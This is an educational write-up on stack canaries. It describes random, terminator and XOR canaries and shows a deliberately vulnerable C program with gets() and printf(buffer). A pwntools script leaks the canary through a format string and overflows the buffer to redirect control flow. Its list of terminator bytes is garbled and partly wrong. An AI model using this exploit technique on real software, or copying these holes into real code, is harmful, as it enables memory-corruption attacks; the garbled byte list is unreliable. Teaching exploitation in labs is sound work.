 # Stack Canaries

A stack canary is a value which the compiler may insert right before the stored base pointer on the stack. When a function is about to return to its caller, the canary is checked for modifications and if it is found to have been changed during the programme's execution, the executable deliberately aborts.

![[res/Canary Memory Layout.svg]]

![[res/Stack Canary Abort Example.png]]

There are 3 main types of canaries:
- **Random**: a random value generated when the programme is run and remains unchanged throughout its execution
- **Terminator**: a special value which is made up of bytes representing well-known bad characters (such as `0x00`, `0xaf` and ) that aim to prevent canary bypasses by terminating input functions
- **XOR**: a random value XOR-ed with the current saved base pointer which makes the canary unique for every function

In Linux, the canary is generated each time `execve()` is called and is stored at an offset of `0x28` from the `FS` register. Additionally, the last byte of Linux canaries is always `0x00`, so they are actually a mixture of a terminator and a random canary. Unfortunately, this distinction also makes them quite easy to spot.

![[res/Stack Canary Assembly.png]]

## Bypassing Canaries

There are two main ways of bypassing canaries.

### Leaking the Canary
The first way is to leak the canary, for example by exploiting a format string vulnerability.

```cpp
#include <stdio.h>
#include <string.h>

void deleteDB() {
    puts("Database deleted.");
}

int main() {
    char buffer[64];

    puts("Enter name: ");
    gets(buffer);
    printf(buffer);

    puts("\nEnter age: ");
    gets(buffer);
    puts("Database updated.");
}

```

When we execute the programme, we can abuse the format string vulnerability in `printf(buffer);` to leak data from the stack like so:

![[res/Canary Leak.png]]

The highlighted string looks awfully like a canary. We count that this is the 35th value on the stack and so we can check it a few more times just to be sure.

![[res/Canary Leak Confirmation.png]]

Indeed, it appears to be a random value but always ends in `0x00`. Now that we can leak the canary, we can include it in our buffer overflow at the approriate position and when we would have essentially left the canary unchanged since we would overwrite it with its original value. Now we are ready to prepare our exploit:

```python
#!/usr/bin/python3

from pwn import *

p = process('./canary')

p.recvline() # receive the 'Enter name: ' line
p.sendline("%35$p") # exploit the format string

canary = int(p.recvline(), 16)

exploit = b'A' * 0x48 # overflow the buffer
exploit += p64(canary) # add the canary
exploit += b'A' * 0x8 # padding to the return address (overwriting the saved base pointer)
exploit += p64(0x401156) # address of deleteDB

p.recvline() # receive the 'Enter age: ' line
p.sendline(exploit)

print(p.clean().decode('latin-1'))
```

![[res/Canary Bypass.png]]

### Bruteforcing the Canary

This technique abuses the fact that processes which are `fork`-ed from the same process will all share the same canary. This attack, however, is only really feasible on 32-bit machines, since the canary there is 32 bits long.